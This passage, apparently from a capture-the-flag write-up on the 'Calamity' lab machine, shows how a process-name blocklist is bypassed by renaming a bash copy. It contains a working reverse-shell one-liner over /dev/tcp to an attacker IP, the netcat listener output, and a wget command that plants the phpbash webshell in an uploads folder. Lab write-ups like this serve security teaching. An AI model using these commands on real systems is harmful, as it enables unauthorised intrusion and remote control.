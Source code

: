 The times line up with when I was trying to get a reverse shell. It seems something is killing processes, and based on the word “blacklist”, it seems likely that certain processes are being identified by process name and killed. Both versions of Python, Netcat, `sh`, and Bash all seem to be triggers.

### Shell

The problem with using blocklists on filenames as a defensive measure is that it’s not that hard for the attacker to make a copy of a binary and give it a different un-blocklisted name.

```

calamity> cp /bin/bash /dev/shm/0xdf
calamity> chmod +x /dev/shm/0xdf
calamity> /dev/shm/0xdf -c '/dev/shm/0xdf -i >& /dev/tcp/10.10.14.24/443 0>&1'

```

I get a shell at `nc`:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.27.
Ncat: Connection from 10.10.10.27:47338.
0xdf: cannot set terminal process group (1376): Inappropriate ioctl for device
0xdf: no job control in this shell
www-data@calamity:/var/www/html$

```

Alternatively, I can upload something like [phpbash](https://github.com/Arrexel/phpbash). I can’t write to the webroot, but I can write to the `/uploads` folder:

```

calamity> wget 10.10.14.24/phpbash.php -O uploads/df.php
calamity> ls uploads
df.php

```

It works:

![image-20200824102426481](https://0xdfimages.gitlab.io/img/image-20200824102426481.png)

Or, I could skip getting a shell all together. I’ve already got `user.txt`, and the only other files I need from this step are retrievable through the webshell.

## Priv: www-data –> xalvas

### Enumeration
